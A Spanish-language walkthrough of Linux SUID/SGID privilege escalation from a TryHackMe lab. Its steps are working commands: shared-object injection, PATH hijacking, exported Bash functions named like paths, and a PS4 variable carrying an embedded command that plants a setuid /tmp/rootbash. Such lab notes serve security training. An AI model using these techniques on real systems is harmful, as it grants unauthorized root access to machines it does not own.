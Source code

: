 # SUID/SGID

## Executables Known Exploit

Encuentra todos los ejecutables SUID/SGID en la máquina virtual Debian:

find / -type f -a ( -perm -u+s -o -perm -g+s ) -exec ls -l {} ; 2> /dev/null

Se puede buscar los exploit de los programas que aparezcan.

## Executables Shared Object Injection

El ejecutable SUID /usr/local/bin/suid-so es vulnerable a la inyección de objeto compartido.

```bash
/usr/local/bin/suid-so
```

Ejecuta strace en el archivo y busca en la salida las llamadas a open/access y los errores de "no existe tal archivo":

```bash
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

Observa que el ejecutable intenta cargar el objeto compartido /home/user/.config/libcalc.so dentro de nuestro directorio personal, pero no puede encontrarlo.

Crea el directorio .config para el archivo libcalc.so:

```bash
mkdir /home/user/.config
```

El código de objeto compartido de ejemplo se puede encontrar en /home/user/tools/suid/libcalc.c. Simplemente genera una shell de Bash. Compila el código en un objeto compartido en la ubicación donde el ejecutable suid-so estaba buscando:

```bash
gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c
```

Ejecuta nuevamente el ejecutable suid-so y toma nota de que esta vez, en lugar de una barra de progreso, obtenemos una shell de root.

```bash
/usr/local/bin/suid-so
```

## Executables Environment Variables

El ejecutable SUID /usr/local/bin/suid-env puede ser explotado debido a que hereda la variable de entorno PATH del usuario e intenta ejecutar programas sin especificar una ruta absoluta.

Primero, ejecuta el archivo y observa que parece estar intentando iniciar el servidor web apache2:

```bash
/usr/local/bin/suid-env
```

Ejecuta el comando strings en el archivo para buscar cadenas de caracteres imprimibles:

```bash
strings /usr/local/bin/suid-env
```

Una línea ("service apache2 start") sugiere que el ejecutable service está siendo llamado para iniciar el servidor web, sin embargo, no se está utilizando la ruta completa del ejecutable (/usr/sbin/service).

Compila el código ubicado en /home/user/tools/suid/service.c en un ejecutable llamado service. Este código simplemente genera una shell de Bash:

```bash
gcc -o service /home/user/tools/suid/service.c
```

Antepón el directorio actual (o donde se encuentre el nuevo ejecutable service) a la variable de entorno PATH, y ejecuta el ejecutable suid-env para obtener una shell de root:

```bash
PATH=.:$PATH /usr/local/bin/suid-env
```

## Executables Abusing Shell Features

El ejecutable /usr/local/bin/suid-env2 es idéntico a /usr/local/bin/suid-env, excepto que utiliza la ruta absoluta del ejecutable service (/usr/sbin/service) para iniciar el servidor web apache2.

Verifica esto con el comando strings:

```bash
strings /usr/local/bin/suid-env2
```

En las versiones de Bash <4.2-048, es posible definir funciones de shell con nombres que se asemejan a rutas de archivo, luego exportar esas funciones para que se utilicen en lugar de cualquier ejecutable real en esa ruta de archivo.

Verifica la versión de Bash instalada en la máquina virtual Debian y asegúrate de que sea inferior a 4.2-048:

```bash
/bin/bash --version
```

Crea una función de Bash con el nombre "/usr/sbin/service" que ejecute una nueva shell de Bash (usando -p para que se conserven los permisos) y exporta la función:

```bash
function /usr/sbin/service { /bin/bash -p; }
export -f /usr/sbin/service
```

Ejecuta el ejecutable suid-env2 para obtener una shell de root:

```bash
/usr/local/bin/suid-env2
```

Cuando está en modo de depuración, Bash utiliza la variable de entorno PS4 para mostrar un indicador adicional para declaraciones de depuración.

Ejecuta el ejecutable /usr/local/bin/suid-env2 con la depuración de bash habilitada y la variable PS4 establecida en un comando incrustado que crea una versión SUID de /bin/bash:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
```

Ejecuta el ejecutable /tmp/rootbash con -p para obtener una shell que se ejecuta con privilegios de root:

```bash
/tmp/rootbash -p
```

<mark style="color:red;">**CTF**</mark>

{% embed url="https://tryhackme.com/r/room/linuxprivesc" %}

{% embed url="https://juggernaut-sec.com/suid-sgid-part-2-lpe/" %}

{% embed url="https://juggernaut-sec.com/suid-sgid-lpe/" %}
